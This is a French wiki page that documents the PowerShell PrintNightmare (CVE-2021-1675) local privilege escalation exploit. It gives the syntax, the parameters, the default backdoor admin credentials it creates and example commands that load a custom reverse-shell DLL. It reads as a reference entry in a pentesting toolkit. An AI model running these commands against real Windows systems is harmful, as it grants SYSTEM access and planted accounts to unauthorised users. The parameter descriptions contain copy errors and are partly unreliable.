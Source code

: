 ```yaml
---
title: PrintNightmare
description: Version PowerShell de l'exploit en local uniquement. Qui permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.
published: true
date: 2024-08-25T12:46:47.310Z
tags: outil, windows, powershell
editor: markdown
dateCreated: 2024-08-23T14:32:14.312Z
---
```


# Introduction

Version PowerShell de l'exploit PrintNightmare en local uniquement. Utilisant une faille dans la fonction RpcAddPrinterDriver, qui permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.

> La fonction RpcAddPrinterDriver permet aux utilisateurs avec le privilège SeLoadDriverPrivilege d'ajouter des drivers sur des spouleurs distants.
> {.is-info}

> La version PowerShell de PrintNightmare est disponible au téléchargement [ici](https://github.com/calebstewart/CVE-2021-1675)
> {.is-info}

> Le canal nommé \pipe\spoolss est utilisé pour la communication.
> {.is-info}

# Syntaxe

`Import-Module .\cve-2021-1675.ps1`
`Invoke-Nightmare [paramètres]`

# Paramètres

| Paramètre                                      | Description                                                           |
| ---------------------------------------------- | --------------------------------------------------------------------- |
| `-DriverName <nom du driver à ajouter>`        | Spécifie le nom du driver (par défaut:"Totally Not Malicious").       |
| `-NewUser <nom de l'utilisateur>`              | Spécifie le nom du driver (par défaut:"adm1n").                       |
| `-NewPassword <mot de passe de l'utilisateur>` | Spécifie le nom du driver (par défaut:"P@ssw0rd").                    |
| `-DLL <chemin absolu du DLL>`                  | Spécifie le DLL à ajouter (non compatible avec les autres paramètres) |

# Exemples

Lancement avec un DLL personnalisé.
`Invoke-Nightmare -DLL "C:\temp\rshell.dll"`

Lancement avec mot de passe par "t00r_secure".
`Invoke-Nightmare -NewPassword "t00r_secure""`

# Voir aussi

le DLL par défaut utilisé pour ajouter un utilisateur:
https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp

Fonction RpcAddPrinterDriver:
https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22

Emplacement et informations concernant le canal nommé \pipe\spoolss:
https://learn.microsoft.com/fr-fr/openspecs/windows_protocols/ms-rprn/fdf1138a-f6b9-4b00-ada6-1fbb6097d683
